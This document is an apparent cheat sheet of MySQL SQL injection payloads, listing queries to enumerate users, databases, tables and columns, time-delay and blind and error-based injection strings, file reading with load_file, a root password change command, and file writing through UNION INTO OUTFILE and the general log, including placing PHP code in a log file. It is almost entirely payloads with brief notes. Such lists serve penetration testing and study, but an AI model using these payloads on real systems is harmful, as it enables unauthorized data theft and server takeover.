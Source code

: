MySQL Payload
========================================

Common Payloads
----------------------------------------
- Version
- ``SELECT @@version``
- Comment
- ``SELECT 1 -- comment``
- ``SELECT 1 # comment``
- ``SELECT /*comment*/1``
- Space
- ``0x9`` ``0xa-0xd`` ``0x20`` ``0xa0``
- Current User
- ``SELECT user()``
- ``SELECT system_user()``
- ``SELECT current_role()``
- List User
- ``SELECT user FROM mysql.user``
- Current Database
- ``SELECT database()``
- List Database
- ``SELECT schema_name FROM information_schema.schemata``
- List Tables
- ``SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
- List Columns
- ``SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
- If
- ``SELECT if(1=1,'foo','bar');`` return 'foo'
- Ascii
- ``SELECT char(0x41)``
- ``SELECT ascii('A')``
- ``SELECT 0x414243`` => return ``ABC``
- Delay
- ``sleep(1)``
- ``SELECT BENCHMARK(1000000,MD5('A'))``
- Read File
- ``select @@datadir``
- ``select load_file('databasename/tablename.MYD')``
- Blind
- ``ascii(substring(str,pos,length)) & 32 = 1``
- Error Based
- ``select count(*),(floor(rand(0)*2))x from information_schema.tables group by x;``
- ``select count(*) from (select 1 union select null union select !1)x group by concat((select table_name from information_schema.tables limit 1),floor(rand(0)*2))``
- Change Password
- ``mysql -uroot -e "use mysql;UPDATE user SET password=PASSWORD('newpassword') WHERE user='root';FLUSH PRIVILEGES;"``

Common functions for injecting errors
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- extractvalue
- updatexml
- GeometryCollection
- linestring
- multilinestring
- multipoint
- multipolygon
- polygon
- exp

Write a file
----------------------------------------

Prerequisites for writing files
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- root permissions
- Know the absolute path of the file
- Write permission exists for the write path
- secure_file_priv allows writing to the corresponding location
- ``select count(file_priv) from mysql.user``

Write files based on into
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.. code-block:: sql

union select 1,1,1 into outfile '/tmp/demo.txt'
union select 1,1,1 into dumpfile '/tmp/demo.txt'

The difference between dumpfile and outfile is that outfile will write a new line at the end of the line and will escape the newline character. If you write a binary file, it may be destroyed by this feature.

Write files based on log
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.. code-block:: sql

show variables like '%general%';
set global general_log = on;
set global general_log_file = '/path/to/file';
select '<?php var_dump("test");?>';
set global general_log_file = '/original/path';
set global general_log = off;
